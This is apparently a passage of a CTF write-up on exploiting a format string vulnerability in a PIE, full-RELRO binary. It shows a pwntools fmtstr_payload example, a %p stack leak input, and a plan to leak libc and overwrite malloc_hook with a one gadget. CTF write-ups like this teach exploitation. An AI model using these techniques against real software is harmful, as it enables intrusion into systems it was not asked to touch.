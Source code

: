 ```python
Python 3.9.5 (default, May 11 2021, 08:20:37) 
[GCC 10.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.arch = "amd64"
>>> fmtstr_payload(1, {0xdeadbeef: 0xcafebabe})
b'%190c%7$lln%12c%8$hhn%52c%9$hhn%188c%10$hhnaaaab\xef\xbe\xad\xde\x00\x00\x00\x00\xf2\xbe\xad\xde\x00\x00\x00\x00\xf1\xbe\xad\xde\x00\x00\x00\x00\xf0\xbe\xad\xde\x00\x00\x00\x00'
```


# The challenge - recon
Let's start by quickly looking at the binaries security using checksec:

```
cave@townie:~/CTF/pwn/format_$ checksec format
[*] '/home/cave/CTF/pwn/format_/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Everything is on. Full RELRO means we cannot overwrite the global offset table. PIE meaning we have to leak the binary base somehow to find anything. Cool:)

The echo function just reads from stdin into a buffer, and prints that buffer without any sanity checks - this means we have a format string vulnerability.

# Game plan
Now that we know we have a format string vulnerability, we need to find out how to use it. But as we're in an infinite loop, with no ways of overwriting the global offset table, what do we overwrite?

There are two targets that's specially interesting. 

1. Overwrite the return address of printf (on the stack)
2. Overwrite what lies at "malloc hook", and then send a lot of characters so malloc will be called to allocate memory

What would we need to do each of these plans?
1. We would need to leak a stack address, then find the offset between the return of printf, and the leaked address.<br>After that we would need to leak the libc version, so that we could put a one gadget as the printf return. 
2. We would need to leak the libc address, and overwrite malloc hook with a one gadget

Now while both are definitely viable, the easier one would be to overwrite malloc hook.

Let's start by running the binary and look at the pointers we can leak:
```
cave@townie:~/CTF/pwn/format_$ ./format 
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
```
